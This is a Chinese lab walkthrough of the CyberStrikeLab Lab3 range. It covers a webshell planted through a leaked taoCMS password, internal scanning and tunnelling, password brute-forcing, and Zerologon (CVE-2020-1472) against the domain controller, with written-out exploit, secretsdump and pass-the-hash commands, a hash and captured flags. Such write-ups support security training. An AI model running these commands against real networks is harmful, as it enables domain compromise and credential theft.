# CyberStrikeLab-Lab3靶场-先知社区

> **来源**: https://xz.aliyun.com/news/17006  
> **文章ID**: 17006

---

# Lab3

## 192.168.10.10/192.168.20.10

**taoCMS前端泄露密码**



**新建文件写入木马**



**蚁剑成功连接**



**添加rdp用户，开发3389端口并连接**

flag1: go-flag{IpbKNIOigmnsuwY3}



## 192.168.20.20

**传fscan做内网信息收集**



**stowaway建socks隧道**



**ThinkPHP站点**



**靶场提示**



**用****awBruter.py****爆破密码**



**蚁剑成功连接**



**创建rdp用户连接，域环境**

flag2:go-flag{C2AoW93mioh5XYQg}



**域控为192.168.20.30**



## 192.168.20.30

**CVE-2020-1472域控提权，获取域控hash**

```
python cve-2020-1472-exploit.py WIN-7NRTJO59O7N 192.168.20.30
python secretsdump.py "cyberstrikelab.com/WIN-7NRTJO59O7N$@192.168.3.21" -no-pass
python wmiexec.py -hashes :f349636281150c001081894de72b4e2b cyberstrikelab.com/administrator@192.168.20.30
```



**hash传递连接192.168.20.30**

flag3:go-flag{ueoJt7eB6AQL8OpL}  

